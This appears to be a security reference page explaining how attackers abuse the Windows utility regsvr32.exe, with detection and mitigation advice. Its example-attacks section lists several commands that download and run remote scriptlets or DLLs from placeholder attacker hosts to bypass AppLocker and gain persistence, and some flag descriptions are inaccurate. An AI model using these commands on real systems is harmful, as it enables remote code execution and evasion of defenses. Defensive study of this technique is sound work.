 # regsvr32.exe
## What is it?
*```regsvr32.exe``` is a legitimate Windows utility used for registering and unregistering Dynamic Link Libraries (DLLs) and ActiveX controls in the Windows registry.*
*It is a trusted system tool that allows applications and services to load DLLs dynamically, ensuring the system operates correctly.*
*Due to its trusted nature, it is often abused by attackers to execute malicious code or bypass security mechanisms.*

## Legitimate Usage
- **Register DLLs** → Register system or third-party DLLs to ensure proper functionality of applications.
- **Unregister DLLs** → Unregister DLLs that are no longer needed or cause conflicts with applications.
- **ActiveX Control Management** → Used to register or unregister ActiveX controls in web applications.
- **Software Installation** → Some installation scripts use ```regsvr32.exe``` to register DLLs as part of the installation process.

## How to abuse it
- **Bypass Execution Restrictions** → Attackers can use ```regsvr32.exe``` to execute malicious scripts or payloads while bypassing security mechanisms such as antivirus or execution policies.
- **Fileless Malware Execution** → Using a remote DLL or malicious script, attackers can execute code without writing it to disk.
- **Bypass AppLocker or Software Restriction Policies** → Since ```regsvr32.exe``` is a whitelisted executable, attackers can abuse it to execute payloads from trusted locations, evading detection.
- **Persistence Mechanism** → Attackers can use ```regsvr32.exe``` in conjunction with remote DLLs to ensure persistence on a compromised system.

## Example attacks
### 1. Executing a Malicious DLL
*Attackers can use ```regsvr32.exe``` to load a malicious DLL from a remote server or local path and execute it.*

**Execute Malicious DLL from Remote Server**

```
regsvr32.exe /s /n /u /i:http://attacker.com/malicious.dll

regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll

regsvr32.exe /s /n /u /i:http://malicious[.]site/payload.sct scrobj.dll

regsvr32.exe /u /s /i:payload.sct scrobj.dll
```

calc.exe is spawned by regsvr32.exe:

![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)

**Effect:**
- ```/s``` → Suppresses the success message, making it stealthy.
- ```/n``` → Bypasses the DLL registration process.
- ```/u``` → Unregisters the DLL after execution.
- Executes the malicious DLL on the target machine.

### 2. Fileless Malware Execution
*Bypassing traditional detection methods, attackers can execute a payload directly from memory using regsvr32.exe and a remote DLL.*

**Execute Malicious DLL without Writing to Disk**

```
regsvr32.exe /s /i:http://attacker.com/malicious.dll
```

**Effect:**
- Loads and executes the DLL directly from memory, avoiding detection by file-based security solutions.

### 3. Using regsvr32 for Persistence
*Attackers can leverage regsvr32.exe to register malicious DLLs or scripts to ensure persistence.*

**Create Persistence with regsvr32**

```
regsvr32.exe /s /n /u /i:http://attacker.com/persistence.dll
```

**Effect:**
- Registers a malicious DLL that persists across reboots, as it may be automatically loaded during system startup.

### 4. Bypassing Application Control (AppLocker)
*Since regsvr32.exe is a trusted system binary, attackers can use it to bypass security controls such as AppLocker or Software Restriction Policies (SRP).*

**Bypass AppLocker to Execute Malicious Payload**

```
regsvr32.exe /s /i:http://attacker.com/payload.dll
```

**Effect:**
- Executes a malicious payload using regsvr32.exe, which is allowed to run despite other restrictions on executables.

### 5. Remote Code Execution via regsvr32
*Attackers can use regsvr32 to execute commands on a remote system using a specially crafted DLL.*

**Execute Remote Code via regsvr32**

```
regsvr32.exe /s /n /i:http://attacker.com/remote_payload.dll
```

**Effect:**
- Executes a payload located on a remote server, enabling remote code execution on the target system.

# Detection & Mitigation
## Detection Methods
**Monitor regsvr32 Executions**
- **Event ID 4688 (Process Creation)** → Detect when ```regsvr32.exe``` is executed with suspicious arguments like `/i` or from unusual paths.
- **Fileless Execution Detection** → Detect unusual network traffic associated with ```regsvr32.exe``` downloading DLLs or payloads from remote servers.
- **Behavioral Analysis** → Monitor for anomalous behaviors, such as the execution of ```regsvr32.exe``` followed by processes that exhibit fileless characteristics.

**Analyze Network Traffic**
- **Monitor Outbound Connections** → Track any outbound connections initiated by ```regsvr32.exe```, particularly those to suspicious or known malicious IP addresses.

**Log Suspicious File Changes**
- **Event ID 4663 (File Access)** → Detect changes to the file system that could indicate a malicious DLL or script is being executed via regsvr32.

## Mitigation Strategies
- **Restrict regsvr32 Access** → Use AppLocker, Device Guard, or similar application control tools to block or restrict the execution of regsvr32 for unauthorized users or processes.
- **Disable Scripting & DLL Loading** → Prevent the use of ```regsvr32.exe``` for loading external DLLs, especially from remote locations.
- **Monitor for Suspicious Scheduled Tasks** → Detect and remove any scheduled tasks or scripts that rely on ```regsvr32.exe``` for persistence.
- **Use Endpoint Protection Software** → Use security software to scan and block malicious DLLs that might be executed through regsvr32.exe.
- **Regularly Review Security Logs** → Look for patterns that suggest regsvr32.exe is being used for malicious purposes, including execution from non-standard locations or with unusual parameters.
